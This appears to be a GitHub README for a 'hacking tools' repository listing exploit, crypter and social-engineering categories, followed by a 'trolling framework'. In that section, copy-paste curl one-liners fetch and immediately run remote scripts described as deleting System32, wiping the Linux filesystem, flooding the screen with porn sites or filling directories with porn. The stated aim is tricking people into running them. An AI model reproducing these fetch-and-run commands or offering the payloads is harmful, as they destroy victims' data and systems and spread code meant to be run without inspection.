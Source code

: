 # Hacking tools
#### Penetration testing and ethical hacking toolkit.

##### 🛡 Exploitation - various archived CVE exploits

##### 🔑 Cryptography - encryption and decryption tools, cipher recognizing tools

##### 🕶 Anonymizing - proxy scrapers, tor scripts and openvpn configs

##### ⚙ Social engineering - forked social engineering framework, some other handy tools 

##### 💻 Hardware hacking - tutorials how-to do stuff like bad usb

##### 🗃 File manipulation - file binders, crypters and much more .net and others

##### 🛠 Reverse engineering - forked popular reverse engineering frameworks and links to professional courses

<a href="https://ibb.co/q5QLKhT"><img src="https://i.ibb.co/X8Rf16c/ezgif-com-gif-maker-1.gif" alt="ezgif-com-gif-maker-1" border="0"></a>
Psst, scroll down.

## Trolling framework
Build to make fun off script kiddies that will execute any code you send them without inspection, use for fun but do not harm.
These scripts are really poorly coded, but friend gave me 24 hours so Im trying to make as much as possible, expect improvement in the future.
This little 'project' was made because I wanted to excercise in as many languages as possible.

### Windows platform
#### 1 (C#) - Blank screen that you can remember from Async rat, I've made own and it doesnt break your pc when you restart it
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/1/script.exe?raw=true -o script.exe & script.exe```
#### 4 (Python) - while True: webbrowser.open('https://pornhub.com'), with 4 threads it was able to break pc, lowered to 2 threads
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/4/script.exe?raw=true -o script.exe & script.exe```
#### 5 (Golang) - Classic infinite messagebox with 'You have been hacked!' message
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/5/script.exe?raw=true -o script.exe & script.exe```
#### 6 (Batch) - Deleting Sys32 😀
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/6/script.bat?raw=true -o script.bat & script.bat```
### Linux platform
#### 2 (Node.js) - Downloads p0rn in every available directory (not compiled yet)
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/2/script.js?raw=true -o script.js; node script.js```
#### 3 (Bash) - Rickrolling while deleting whole filesystem, use when escaping feds, death to whoever launches this without looking at the code 😂
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/3/script.sh?raw=true -o script; chmod+x script; ./script```
#### 4 (Python) - while True: webbrowser.open('https://pornhub.com'), with 4 threads it was able to break pc, lowered to 2 threads
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/4/script.bin?raw=true -o script.bin; chmod+x script.bin; ./script.bin```
#### 7 (Java) - Blank screen, coming soon

